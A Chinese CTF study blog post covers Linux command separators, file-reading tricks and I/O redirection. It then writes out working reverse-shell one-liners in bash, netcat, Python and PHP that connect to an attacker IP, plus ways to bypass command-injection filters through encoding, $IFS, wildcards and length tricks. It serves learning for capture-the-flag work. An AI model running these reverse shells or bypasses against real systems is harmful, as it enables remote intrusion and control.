最近ctf 貌似对 RCE(远程命令执行)的要求明显提高，最后一步都是考一些关于反弹shell或远程执行某文件并知晓返回结果。然后，这些本linux命令就掌握不够好的菜鸡，雪上加霜。故写下此文来记录下（顺便也方便健忘的我来记忆下(눈_눈)）
linux命令分割符
用linux命令时候,我们想用一行来执行多条命令时我们可以用命令分割符来操作。
‘;’符号
用;号隔开每个命令, 每个命令按照从左到右的顺序,顺序执行， 彼此之间不关心是否失败， 所有命令都会执行.用法:
1 | command1 ; command2 |
单’|’符号
Linux所提供的管道符“|”将两个命令隔开，管道符左边命令的输出就会作为管道符右边命令的输入。连续使用管道意味着第一个命令的输出会作为 第二个命令的输入，第二个命令的输出又会作为第三个命令的输入，依此类推.
1 | command1 | command2 |

‘;’与’|’的对比:

单’&’符号
默认情况下，我们命令行执行的进程是前台进程，这时就把Shell给占据了，我们无法进行其他操作，对于那些没有交互的进程，很多时候，我们希望将其在后台启动，可以在启动参数的时候加一个’&’实现这个目的。用法:
1 | command1 & command2 #commond1 命令将会在后台进行 |

对比上图，可见 ‘&’前面的‘ping 127.0.0.1 ’在后端运行：
另外’&’也是可以套娃使用的：

‘&’与’;’的对比:’;’是死板的从左到右,’&’是将右边的放入后台执行:
双’&’符号（’&&’）
与c语言的’&&’类似，’&&’表时逻辑且的意思。只有在 && 左边的命令返回真（命令返回值 $? == 0），&& 右边的命令才会被执行。用法：
1 | command1 && command2 |
示例：

双’|’符号（’||’）
与’&&’相反，’||’表示逻辑或的意思。只有在 || 左边的命令返回假，|| 右边的命令才会被执行。这和 c 语言中的逻辑或语法功能相同，即实现短路逻辑或操作。
用法：
1 | command1 || command2 |
示例：

linux 常用操作
1.读取文件操作
cat
由第一行开始显示内容，并将所有内容输出.
tac
从最后一行倒序显示内容，并将所有内容输出.
more
根据窗口大小，一页一页的现实文件内容.
可加-数字 一次显示的行数。+数字设置从第几行开始查看。
head
只显示头几行。
可加-c 设置一次显示的字符数。-n设置从显示行数。

tail
只显示最后几行。
可加-c 设置一次显示的字符数。-n设置从显示行数。

nl
类似于cat -n，显示时输出行号。
sort
sort 命令默认用法也有读取文件的作用。
paste
在合并文件的同时也会输出文件的内容。（可以只传一个文件名）

diff
diff在对比两个文件后，会将两个文件输出。

od
od指令会读取所给予的文件的内容，并将其内容以八进制字码呈现出来。
我们可以通过 -a、 -c、 -ta 、-tc 选项将其转为可见字符显示出来。

bzmore
bzmore将bzip压缩过的文件解压到标准输出，同时也可以将普通文件显示到标准输出。

less
more类似，但其优点可以往前翻页，而且进行可以搜索字符。在默认情况下翻页。
我们反引号来进行指令替代（以某一个指令的输出结果作为另一个指令的输入项）
例如下：

bzless
增强“.bz2”压缩包查看器，bzless比bzmore命令功能更加强大。在默认情况下翻页。
我们同样可以用反引号来进行指令替代
curl
curl 通过文件协议来读取文件。
curl file:///home/coffee/flag
2.目录读取
ls 命令
ls 用于查看参数目录下的文件。
基本用法：ls 文件路径
dir
与ls类似，用于查看参数目录下的文件。基本 用法：dir 文件路径
3.重定向与命令替换
I / O重定向
I / O重定向通俗的讲就是就是我们平时用到的那些就是经典的输出重定向>和输入重定向<.
但如过要深入点了解I / O重定向，还需要了解文件描述符。
文件描述符
在linux中，每个打开的文件都分配有一个文件描述符。但会保留描述符1到9。其中0
、1、2是默认打开文件stdin， stdout和stderr的 文件描述符。
1 | 0 是stdin（键盘设备文件） 又称为标准输入 ，是我们从键盘输入信息所在的文件 |
如果还不理解stdout与stderr，看下下面这张图。

在cat aa 1>sss时cat aa的标准输出未打印在屏幕上，而是重定向输出在文件sss里。
在cat aa 2>sss时cat aa并未报错，所以标准输出打印在屏幕上且sss中的文件为NULL。
在cat lexs 2>sss时由于没有lexs文件cat lexs有报错但是未打印在屏幕上，而是重定向输出在文件sss里。
输入重定向
输入重定向是指把命令（或可执行程序）的标准输入重定向到指定的文件中。也就是说，输入可以不来自键盘，而来自一个指定的文件。所以说，输入重定向主要用于改变一个命令的输入源，特别是改变那些需要大量输入的输入源。如下图：

如果给出一个文件名作为wc命令的参数，wc将会返回该文件文件名。如过以输入重定向的方式作为wc命令的参数，wc不会会返回该文件文件名。
输入重定向常用命令有:<与<<，<与<<是有区别的：
1 | <用法： |
输出重定向
输出重定向是指把命令（或可执行程序）的标准输出或标准错误输出重新定向到指定文件中。这样，该命令的输出就不显示在屏幕上，而是写入到指定文件。

输出重定向与输入重定向相比，操作与命令更加丰富：
1 | command > 文件 |
部分用法展示

另外说一下,&>与>&都允许将标准输出（文件描述符1）和标准错误输出（文件描述符2）都重定向到的文件里.如下图所示：

看似&>与>&一样,但如果重定向的是文件描述符时,两者这有点细微的:

注意！在当前目录下,有个名为1的文件！！！
我们在执行ls 1&>sss时，&>把ls 1当成一条命令运行重定向到sss里。
相当于执行的是(ls 1) &>sss。
我们在执行ls 1>&sss时，&>把ls当成一条命令运行重定向到sss里。
相当于执行的是(ls) 1&>sss。
命令替换
命令替换是指将命令的标准输出作为值赋给某个变量，bash Shell定义了两种形式进行命令的替换，两种形式的语法格式如下：
方式一： `Linux命令`
方式二： $（Linux命令）

注意：尽管$（）和反引号在命令替换上是等价的，但是，$（）形式的命令替换是可以嵌套的。
4.反弹shell
方法1：shell命令反弹
利用shell 命令来进行shell反弹.
在进攻机上执行监听命令：
1 | nc -lvp (port) #port 为监听的端口 |
在被攻击机器上执行命令:
1 | bash -i >& /dev/tcp/(ip)/(port) 0>&1 |
（有些情况下bash可以用sh来代替。）
按自己的理解解释下这命令：
bash -i 命令行的交互模式.
/dev/tcp/(ip)/(port)指远程，也就是攻击机.
所以bash -i >& /dev/tcp/(ip)/(port)就是将命令行的交互的输出重定向( stdout和stderr)到攻击机.
0>&1将命令行的交互的输入重定向( stdin)到攻击机.

效果展示:

方法2:利用nc反弹
使用nc反弹shell，被攻击机反弹shell命令如下：
1 | nc -e /bin/bash ip port # ip port指攻击机的ip与port |
攻击接听命令：
1 | nc -nlvp (port) # port指攻击机的port |
nc监听端口反弹shell时都会有一个警告：Warning: forward host lookup failed for bogon: Unknown host,根据nc帮助文档的提示加上-n参数就可以不产生这个警告了，-n参数代表在建立连接之前不对主机进行dns解析。

这里的-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。但弹了命令没有弹用户、位置及权限信息。
若-e 不能使用，可以利用到linux中的管道符。攻击机上开两个端口来监听。例如：
1 | nc -nvlp 7777 |
被攻击上执行
1 | nc 192.168.14.200 7777|/bin/bash|nc 192.168.14.200 8888 |
这样在攻击机上一个端口发送命令一个端口接收回显。

方法3:利用python反弹
使用python反弹，被攻击机反弹shell命令如下：
1 | python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" |
在进攻机上执行监听命令：
1 | nc -lvp (port) #port 为监听的端口 可以在前面加个n |
下面来解释一下python反弹shell的原理。
首先使用socket与远程建立起连接，接下来使用到了os库的dup2()将标准输入、标准输出、标准错误输出重定向到远程，dup2()这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2。（可以理解成重定向的作用，fd2 >& fd1 ）.
s.fileno()是s的文件描述符，而s指代攻击机。所以s.fileno()就代表攻击机。
使用os.subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了s.fileno()(攻击机），这样的话就可以在攻击机远程执行输入命令了。
效果展示:

方法4:利用php反弹
1 | php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");' |
我们利用fsockopen函数建立socket连接攻击机。其中3代表的是使用fsockopen函数建立socket返回的文件描述符，然后将将标准输入，标准输出和标准错误输出都重定向到了3（攻击机）。
php关闭safe_mode这个选项，才可以使用exec函数。
常见bypass
敏感字符过滤绕过
利用\符号
\符号,会将两字符串拼成一个字符串来使用.例如下拼接cat
在网页中，使用%0a(\n)，%0d(\r)，%09(\t)等字符也可以bypass
利用特殊变量
在bash环境中，有些的特殊变量都是为空的.可以夹着关键字中绕过,如’fla$*g’可以绕过对’flag’的过滤.
在可以使用的特殊变量有:
1 | * #传递给脚本或函数的所有参数 |
效果：

按照我们理解特殊变量中‘传递给脚本或函数的参数’这个概念是指运行的一个函数or脚本内，所接受到的参数，然不是我们对一个将要运行的传递给脚本或函数的参数。如下：

我们输出$0 看到的是bash，输出$看到的是空，说明特殊变量指代的是bash这个脚本运行时的传递给*这个（bash）脚本参数**而不是将要运行echo 的参数。
使用变量
我们可以通过变量，来分隔组合来进行一些绕过或者配合${}进行切片。
分隔组合：若ls 被禁，我们可以‘a=l ;b=s ;$a$b ’

配合${} 切片：若ls 被禁，我们可以‘a=”12l23s”;b=${a:2:1}${a:5:1};$b ’

通配符*和?的使用
我们可以用于通配符*和?，来替换部分关键字。*可以匹配多个，？只能代替一个。

同时,因为*和?优先匹配的下当前目录下的文件名:

且在单独用通配符*时,bash会把匹配的第一个文件名当成命令,其余当成参数来执行:

[]和{}的使用
用[]or{}在一个范围内进行替代。

注意：[]和{}有点细微差别。

使用双引号和单引号
使用双引号和单引号，隔离拼接关键字来进行绕过。

使用编码
可以用编码绕过的有点多，如：rot13，base64,16进制,8进制这里只提几种典型。
base64编码
可以解base64来绕过
例：echo Y2F0IGFh|base64 -d|bash（Y2F0IGFh解码为cat aa）
16进制编码
可以通过解16进制来绕过
例：echo 6c73 | xxd -r -p|bash（6c73解码为ls）

例：$(printf '\x6c\x73')（\6c\73解码为ls）ps：注意引号！

8进制
可以解8进制来绕过
例：$(printf '\154\163') （\154\163解码为ls）

空格过滤绕过
在空格被过滤后,如何分割传参是一个问题?我找到以下几个方法:
(1) $IFS是linux shell 中的一种特殊的变量,默认条件下,IFS 的值，默认是 space, tab, newline这三个值在shell中都有分割参数的意思.但要注意的$IFS不能直接被shell识别,要${IFS}或$IFS$9提醒shell 是$IFS变量.
(2)利用输入重定向也是分割参数代替空格的好方法.

(3)活用{}也能巧妙代替空格分离参数方法.

ip地址过滤绕过
网络地址除了我们所知道’127.0.0.1’.网络地址有另外一种表示形式，就是数字地址,比如127.0.0.1’的10进制数字地址就是’2130706433’、16进制数字地址就是’0x7f000001’。

附带一个自己写的渣转化ip的python脚本：
1 | import re |
长度限制绕过
如果shell对一次性输入的命令有长度限制比如一次不超过8个字符。我们可以通过’\‘符号可以拼接命令的特性、’ls -t’可以把文件按规律排序、sh or bash 把接收的参数当命令执行的特点。将命令写成有规律的文件名 ，再通过’ls -t’ 与 sh 排序执行。
以cat -n flag.txt为例：
1 | g.txt #命名倒着写，命令最后的写前面 |
效果：

后记
恍恍惚惚地发现总结这些关于linux的常用的姿势，居然断断续续用了近天的时间。对于这些知识，有的平时在看payload时感觉很简单。但是在静下心来分析原理时，就会发现有很多看似简单的东西，背后细节不一般，比如重定向‘>&’与’&>’的含义异同；特殊变量’$*’与‘$@’的取值；长度限制绕过文件编写要注意命名的分割。花这么多时间整理下来，也学到很多意想不到的知识。